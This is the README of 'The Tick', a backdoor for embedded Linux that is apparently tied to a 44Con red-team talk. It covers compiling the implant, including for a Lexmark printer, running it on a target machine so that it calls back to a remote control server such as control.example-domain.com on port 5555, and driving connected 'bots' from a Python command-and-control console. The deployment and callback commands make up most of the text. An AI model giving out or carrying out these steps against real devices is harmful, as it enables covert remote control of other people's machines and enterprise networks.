

# The Tick

A simple embedded Linux backdoor.

- [The Tick](#the-tick)
  * [Compiling](#compiling)
  * [Installing](#installing)
  * [Usage](#usage)
  * [Media](#media)



## Compiling

The Tick depends only on libcurl, so make sure you have the corresponding development package. For example on Debian based distributions you would do the following:

```
sudo apt-get install libcurl-dev
```

Once the dependencies are installed just run the makefile:

```
cd src
make clean
make
```

Once the "make" command has run to completion, the compiled binary can be found at the "bin" folder. This is the binary you want to run on your target machine to control it remotely.

When cross-compiling for supported platforms, the dependency resolution and compilation is done automatically for you. Currently the only supported cross-compiling platform is the Lexmark CX310DN printer, but more devices will be added later. Consult the makefile for more details.

The command and control console is written in Python and therefore needs not be compiled.

## Installing

Obtaining persistence on the backdoor will depend heavily on the target platform, and therefore is not documented here.

On the target machine, run the backdoor binary with the following arguments:

```
./ticksvc ADDR PORT
```

Where "ADDR" and "PORT" must be replaced by the IP address and port where the command and console will be listening. The default port is 5555.

The command and control console requires no installation, but may have unresolved dependencies. Run the following command to ensure all dependencies are properly installed (note this does not need sudo):

```
pip install --upgrade -r requirements.txt
```

In most Linux desktop environments the following "Tick.desktop" file will create an icon you can double click to run the console:

```
[Desktop Entry]
Encoding=UTF-8
Value=1.0
Type=Application
Name=The Tick
GenericName=The Tick
Comment=An embedded Linux backdoor
Icon=/opt/thetick/doc/logo.png
Exec=/opt/thetick/tick.py
Terminal=true
Path=/opt/thetick/
```

The exact location for the Tick.desktop file may vary across Linux distributions but generally placing it in the desktop should work. Make sure to edit the path to wherever you downloaded The Tick (/opt/thetick in the above example).

## Usage

To run the backdoor binary on the target platform, set the control server hostname and port as command line options. For example:

```
./ticksvc control.example-domain.com 5555
```

At the control server, you may want to run the console inside a GNU screen instance or similar:

```
sudo apt-get install screen
screen -S thetick ./thetick.py
```

That way you can detach from the console by pressing Control+A followed by D. You can return to the console later like this:

```
screen -r thetick
```

The console will let you know when a new bot connects to it. Use the "bots" command to show the currently connected bots, and the "use" command will select a bot to work with. The "help" command shows the user manual.

Here are a few screenshots illustrating what the console is capable of:


## Media

The Tick has been referenced in the following 44Con presentation by Daniel Romero and Mario Rivas:

[](http://www.youtube.com/watch?v=plu7U0Sq9HQ "Office Equipment: The Front Door To Persistence On Enterprise Networks - D. Romero and M. Rivas")
